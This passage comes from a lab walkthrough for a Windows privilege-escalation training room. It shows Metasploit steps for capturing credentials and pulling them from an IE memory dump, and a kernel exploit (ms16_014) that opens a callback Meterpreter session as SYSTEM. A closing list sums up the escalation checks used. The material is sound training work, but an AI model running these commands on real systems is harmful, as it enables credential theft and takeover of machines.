set SRVHOST YOUR_KALI_IP
run
```



On the Windows target, browse IE to `http://YOUR_KALI_IP/x`. The Windows Security dialog appears prompting for credentials:



Credentials entered by the user are immediately captured by Metasploit:



Create a memory dump of the IE process via Task Manager → right-click IE → Create Dump File. Transfer the `.DMP` file to Kali via FTP and extract credentials from it:

```bash
strings iexplore.DMP | grep -i "authorization"
```



**Result:** Credentials extracted from browser process memory.

---

### Task 14 — Privilege Escalation: Kernel Exploits

**Goal:** Identify applicable kernel CVEs using the local exploit suggester and escalate directly to SYSTEM.

#### Detection

Get a Meterpreter session first, then background it and run the local exploit suggester:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION your_session
run
```



The suggester returns 13 viable exploits including `ms16_014_wmi_recv_notif`. Always migrate to a stable x64 process before running kernel exploits to avoid WOW64 errors:

```bash
migrate PID_OF_EXPLORER
```

#### Exploitation

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION your_session
set LHOST YOUR_KALI_IP
set LPORT 5555
run
```



```
whoami
nt authority\system
```

**Result:** New Meterpreter session as `nt authority\system`.

---

## ✅ Room Completed



All 14 tasks completed. Every privilege escalation technique executed successfully from detection through SYSTEM.

---

## 📌 Conclusion

* **PowerUp is always the first tool to run** — it automates detection of most vulnerabilities in this room in a single command. Every `AbuseFunction` it prints is a working exploit path. Run it before touching anything manually.

* **SERVICE_CHANGE_CONFIG is as dangerous as write access to the binary** — most people look for writable files. The binPath attack requires no file writes at all — just a service permission that is commonly overlooked. Always run `accesschk64.exe -uwcv Everyone *` on every Windows box.

* **Unquoted service paths are everywhere in real environments** — any service path with spaces and no quotes is potentially vulnerable. The `wmic service get pathname` one-liner finds them all in seconds. Always check before moving to more complex techniques.

* **AlwaysInstallElevated is a group policy setting nobody remembers to check** — both HKLM and HKCU must be set to `0x1` for the attack to work. Two registry queries and you know. If it is set, you have SYSTEM in minutes with a single MSI.
---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀


